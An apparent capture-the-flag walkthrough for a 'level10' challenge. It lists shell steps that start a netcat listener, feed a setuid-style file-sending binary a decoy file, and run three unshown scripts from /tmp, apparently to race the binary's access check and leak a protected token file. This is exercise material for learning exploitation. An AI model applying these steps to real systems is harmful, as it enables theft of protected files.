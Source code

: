 # cmd
* ``ls``
    * 2 objs : 1 binary level10 + 1 file token
* ``./level10``
    * ``./level10 file host``
	``sends file to host if you have access to it``
* ``echo bouh>bouh``
* in a 2nd terminal ``nc -l 6969``
* in the 1st terminal ``./level10 bouh 0.0.0.0``
* in the 2nd terminal -> ``.*( )*.`` \r ``bouh``
* in the 1st terminal :
    * ``cd /tmp``
    * ``vim script1.sh`` -> put script1.sh
    * ``chmod +x script1.sh``
    * ``./script1.sh``
* in the 2nd terminal :
    * ``cd /tmp``
    * ``vim script2.sh`` -> put script2.sh
    * ``chmod +x script2.sh``
    * ``./script2.sh``
* in a 3rd terminal :
    * ``cd /tmp``
    * ``vim script_on_host.sh`` -> put script_on_host.sh
    * ``chmod +x script_on_host.sh``
    * ``./script_on_host.sh``
